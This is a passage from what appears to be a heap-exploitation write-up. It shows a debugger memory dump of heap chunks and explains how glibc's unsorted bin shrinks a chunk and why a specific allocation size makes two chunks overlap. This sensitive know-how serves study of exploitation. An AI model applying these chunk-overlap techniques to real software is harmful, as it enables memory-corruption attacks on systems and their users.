 ```
0x56257ccda590:	0x0000000000000000	0x0000000000000000
0x56257ccda5a0:	0x0000000000000000	0x0000000000000000
0x56257ccda5b0:	0x0000000000000000	0x0000000000000000
0x56257ccda5c0:	0x0000000000000000	0x0000000000000000
0x56257ccda5d0:	0x0000000000000000	0x0000000000000000
0x56257ccda5e0:	0x0000000000000000	0x0000000000000000
0x56257ccda5f0:	0x0000000000000000	0x0000000000000000
0x56257ccda600:	0x0000000000000000	0x0000000000000000
0x56257ccda610:	0x0000000000000000	0x0000000000000000
0x56257ccda620:	0x0000000000000000	0x0000000000000081
0x56257ccda630:	0x4343434343434343	0x4343434343434343
0x56257ccda640:	0x4343434343434343	0x4343434343434343
0x56257ccda650:	0x4343434343434343	0x4343434343434343
0x56257ccda660:	0x4343434343434343	0x4343434343434343
0x56257ccda670:	0x4343434343434343	0x4343434343434343
0x56257ccda680:	0x4343434343434343	0x4343434343434343
0x56257ccda690:	0x4343434343434343	0x4343434343434343
0x56257ccda6a0:	0x0000000000000000	0x0000000000000081
0x56257ccda6b0:	0x4343434343434343	0x4343434343434343
0x56257ccda6c0:	0x4343434343434343	0x4343434343434343
0x56257ccda6d0:	0x4343434343434343	0x4343434343434343
0x56257ccda6e0:	0x4343434343434343	0x4343434343434343
0x56257ccda6f0:	0x4343434343434343	0x4343434343434343
0x56257ccda700:	0x4343434343434343	0x4343434343434343
0x56257ccda710:	0x4343434343434343	0x4343434343434343
0x56257ccda720:	0x0000000000000000	0x0000000000000081
0x56257ccda730:	0x4747474747474747	0x4747474747474747
0x56257ccda740:	0x4747474747474747	0x4747474747474747
0x56257ccda750:	0x4747474747474747	0x4747474747474747
0x56257ccda760:	0x4747474747474747	0x4747474747474747
0x56257ccda770:	0x4747474747474747	0x4747474747474747
0x56257ccda780:	0x4747474747474747	0x4747474747474747
0x56257ccda790:	0x4747474747474747	0x4747474747474747
0x56257ccda7a0:	0x0000000000000000	0x0000000000000081
0x56257ccda7b0:	0x5252525252525252	0x5252525252525252
0x56257ccda7c0:	0x0000000000000330	0x0000000000000060
0x56257ccda7d0:	0x0000000000000000	0x0000000000000000
0x56257ccda7e0:	0x0000000000000000	0x0000000000000000
0x56257ccda7f0:	0x0000000000000000	0x0000000000000000
0x56257ccda800:	0x0000000000000000	0x0000000000000000
0x56257ccda810:	0x0000000000000000	0x0000000000000000
0x56257ccda820:	0x0000000000000000	0x00000000000207e1
```

you might wonder why chunk A shrunk. That is to do with the way the unsorted bin serves the allocations. Whenever there is a request by malloc for a new chunk of a given size, if the tcache of that size is empty and the fastbin of that size is also empty, the new chunk will come out of the unsorted bin by substracting its size from the size of the chunk currently in the unsorted bin. In our case 0x420-0xf0 = 0x330.

## deal with the null termination in inbuf
I mentioned that the size 0xe0 was not chosen randomly. It is actually more than that, if we request any larger or smaller sized chunk the next part of the exploit will fail. The whole point of even allocating here is to push the libc pointers lower down the heap so that chunk A overlaps with chunk B in a very specific way
